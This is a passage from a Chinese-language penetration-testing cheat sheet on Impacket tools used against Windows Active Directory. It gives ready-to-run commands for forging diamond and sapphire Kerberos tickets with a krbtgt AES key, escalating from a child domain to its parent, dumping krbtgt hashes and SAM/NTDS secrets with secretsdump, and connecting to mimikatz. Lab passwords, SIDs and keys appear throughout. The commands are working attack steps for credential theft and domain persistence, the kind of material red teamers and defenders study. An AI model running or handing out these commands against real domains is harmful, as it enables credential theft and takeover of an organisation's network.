[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123713-aa8e4232-6bb1-1.png)

**钻石票据伪造**

由于金票据和银票据没有合法的 KRB\_AS\_REQ 或 KRB\_TGS\_REG 请求，所以会被发现。而钻石票据会正常请求票据，然后解密票据的 PAC，修改并重新加密。从而增加了隐蔽性。

aesKey 是 krbtgt 的密钥，注意一般 aesKey 都是 256 位加密的，这个得看 DC 的算法。不过 128 也建议存一份吧

\-user-id 和-groups 是可选的，如果不选分别会默认 500 和 513, 512, 520, 518, 519

\-user 和-password 是要真实去发起 TGT 请求的用户的账密，可使用 hash。这个用户实际上是什么权限不重要

```plain
py -3 ticketer.py -request -domain test.com -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -user administrator -password 1qaz@WSX -aesKey 245a674a434726c081385a3e2b33b62397e9b5fd7d02a613212c7407b9f13b41 -user-id 1500 -groups 12,513,518,519,520 qqq
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123722-afd66ad0-6bb1-1.png)

**蓝宝石票据伪造**

钻石票据是伪造的 PAC 特权，但是蓝宝石票据是将真实高权限用户的 PAC 替换到低权限的 TGT 中，从而成为目前最难检测的手法

不过该技术还是 impacket 的一个分支，正在等待合并。

注意，因脚本问题，未复现成功

```plain
py -3 ticketer_imper.py -request -domain test.com -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -user administrator -password 1qaz@WSX -aesKey 245a674a434726c081385a3e2b33b62397e9b5fd7d02a613212c7407b9f13b41 -impersonate administrator qqq
```

参考：

[https://github.com/SecureAuthCorp/impacket/pull/1411](https://github.com/SecureAuthCorp/impacket/pull/1411)

#### 常用选项

```plain
-spn SPN 银票用，一般都是某个服务器的 cifs 或 DC 的 ldap 服务，mssql 啥的也可以考虑
-request 要求请求 TGT，这个脚本里可以理解为钻石票据伪造。必须同时存在-user 和-password
-aesKey hex key 用来签名票据的 krbtgt 的 AES 加密的密码
-nthash NTHASH  用来签名票据的 krbtgt 的 NTLM 加密的密码
-keytab KEYTAB 请求文件内容中的多个银票据
-duration DURATION 修改票据的失效时间
-user-id USER_ID 指定伪造 PAC 的用户权限 ID，默认是 500 管理员
-groups GROUPS 指定伪造 PAC 的组权限 ID，默认是 513, 512, 520, 518, 519 这五个组
```

### raiseChild.py(无环境)

可使用密码认证、hash 认证、Kerberos 认证

#### 常用命令

```plain
py -3 raiseChild.py childDomain.net/adminuser:mypwd
```

#### 常用选项

## Windows 密码

### secretsdump.py

#### 常用命令

**基于 NTLM 认证，使用机器用户导出**

```plain
py -3 secretsdump.py -hashes 5f8506740ed68996ffd4e5cf80cb5174:5f8506740ed68996ffd4e5cf80cb5174 "domain/DC\$@DCIP" -just-dc-user krbtgt
```

**基于 Kerberos 票据导出**

```plain
export KRB5CCNAME=ad01.ccache 
py -3 secretsdump.py -k -no-pass AD01.test.com -dc-ip 192.168.111.146 -target-ip 192.168.111.146 -just-dc-user krbtgt
```

**本地解密 SAM**

```plain
py -3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

#### 常用选项

> \-system SYSTEM SYSTEM 文件  
> \-security SECURITY security 文件  
> \-sam SAM SAM 文件  
> \-ntds NTDS NTDS.DIT 文件  
> \-resumefile RESUMEFILE 待恢复的 NTDS.DIT 转储文件  
> \-outputfile OUTPUTFILE 输出的文件名  
> \-use-vss 使用 vss 卷影替代 DRSUAPI  
> \-rodcNo RODCNO Number of the RODC krbtgt account (only avaiable for Kerb-Key-List approach)  
> \-rodcKey RODCKEY AES key of the Read Only Domain Controller (only avaiable for Kerb-Key-List approach)  
> \-use-keylist 使用 KerberosKeyList 转储 TGS-REQ  
> \-exec-method \[{smbexec,wmiexec,mmcexec}\] 使用 vss 卷影导出时执行命令的方法，分别有 smbexec、wmiexec、mmcexec

### mimikatz.py

这是一个比较鸡肋的功能，需要先在目标机器上用 mimikatz 执行 rpc::server

然后用该脚本进行连接

```plain
py -3 .\mimikatz.py test.com/administrator:1qaz@WSX@192.168.40.158
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123733-b6d03d16-6bb1-1.png)
